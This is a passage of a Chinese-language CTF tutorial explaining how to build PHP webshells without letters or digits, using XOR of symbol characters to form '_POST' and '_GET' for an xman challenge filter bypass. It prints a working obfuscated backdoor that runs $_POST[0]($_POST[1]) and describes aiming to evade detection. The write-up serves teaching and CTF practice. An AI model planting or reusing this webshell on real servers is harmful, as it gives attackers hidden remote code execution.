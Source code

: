 我們一起來分析一下上面這段代碼：

1、`$_++; ` 這行代碼的意思是對變量名爲 `"_"` 的變量進行自增操作，在 `PHP` 中未定義的變量默認值 `null` ，`null==false==0` ，我們可以在不使用任何數字的情況下，通過對未定義變量的自增操作來得到一個數字。

2、`$__="?" ^ "}"; ` 對字符 `?` 和 `}` 進行異或運算，得到結果 `B` 賦給變量名爲 `__` (兩個下劃線)的變量

3、`$ __ (); ` 通過上面的賦值操作，變量 `$__` 的值爲 `B` ，所以這行可以看作是 `B()` ，在 `PHP` 中，這行代碼表示調用函數 `B` ，所以執行結果爲 `Hello Angel_Kitty` 。在 `PHP` 中，我們可以將字符串當作函數來處理。

看到這裏，相信大家如果再看到類似的 `PHP` 後門應該不會那麼迷惑了，你可以通過一句句的分析後門代碼來理解後門想實現的功能。

我們希望使用這種後門創建一些可以繞過檢測的並且對我們有用的字符串，如 `_POST` ， `system` ， `call_user_func_array `，或者是任何我們需要的東西。

下面是個非常簡單的非數字字母的 `PHP` 後門：

```
<?php
    @$_++; // $_ = 1
    $__=("#"^"|"); // $__ = _
    $__.=("."^"~"); // _P
    $__.=("/"^"`"); // _PO
    $__.=("|"^"/"); // _POS
    $__.=("{"^"/"); // _POST 
    ${$__}[!$_](${$__}[$_]); // $_POST[0]($_POST[1]);
?>
```

在這裏我說明下， `.=` 是字符串的連接，具體參看 `PHP` 語法

我們甚至可以將上面的代碼合併爲一行，從而使程序的可讀性更差，代碼如下：

```
$__=("#"^"|").("."^"~").("/"^"`").("|"^"/").("{"^"/");
```

我們回到 `xman` 訓練賽的那題來看，我們的想法是通過構造異或來去繞過那串字符，那麼我們該如何構造這個字串使得長度小於 `40` 呢？

我們最終是要讀取到那個 `getFlag` 函數，我們需要構造一個 `_GET` 來去讀取這個函數，我們最終構造瞭如下字符串：

![](./figure/preg_match/payloads.png)

可能很多小夥伴看到這裏仍然無法理解這段字符串是如何構造的吧，我們就對這段字符串進行段分析。

#### 構造 `_GET` 讀取

首先我們得知道 `_GET` 由什麼異或而來的，經過我的嘗試與分析，我得出了下面的結論：

```
<?php
    echo "`{{{"^"?<>/";//_GET
?>
```

這段代碼一大坨是啥意思呢？因爲40個字符長度的限制，導致以前逐個字符異或拼接的webshell不能使用。  
這裏可以使用php中可以執行命令的反引號 `` ` `` 和 `Linux` 下面的通配符 `?`

- `?` 代表匹配一個字符
- `` ` 表示執行命令
- `" ` 對特殊字符串進行解析
